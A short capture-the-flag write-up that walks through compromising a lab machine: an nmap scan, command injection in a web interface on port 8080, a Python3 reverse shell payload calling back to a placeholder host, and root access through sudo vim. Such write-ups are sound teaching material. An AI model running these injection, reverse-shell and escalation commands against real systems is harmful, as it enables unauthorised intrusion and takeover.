 # CTF Challenge Writeup

## Challenge Overview
In this challenge, you need to use a combination of tools and techniques to find hidden information and extract the final flag.

## Steps to Solve the Challenge

### Step 1: Scan the IP with Nmap
First, you need to scan the target IP address to find open ports. Use Nmap to perform this scan.

```bash
nmap -sV <target-ip>
```

### Step 2: Access the Web Server on Port 8080
Navigate to the web server running on port 8080.

```bash
http://<target-ip>:8080
```

### Step 3: Execute a Command
Use the web interface to execute a command. For example, list the files in the current directory.

```sh
; ls
```

### Step 4: Establish a Reverse Shell in Python3
Execute a reverse shell command to gain a shell on the target machine.

```sh
; python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your-ip",12345));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

### Step 5: Find the `web.txt` File in `/var/www`
Once you have a shell, navigate to the `/var/www` directory and find the `web.txt` file.

```sh
cd /var/www
cat web.txt
```

### Step 6: Check Sudo Permissions
Check the sudo permissions to see if you can run `vim` as sudo.

```sh
sudo -l
```

### Step 7: Run `vim` with Sudo
Run `vim` with sudo to gain elevated privileges.

```sh
sudo /usr/bin/vim
```

### Step 8: Get a Shell from `vim`
Once inside `vim`, execute a shell command to get a root shell.

```vim
:!bash
```

### Step 9: Find the `root.txt` File in `/root`
Navigate to the `/root` directory and find the `root.txt` file.

```sh
cd /root
cat root.txt
```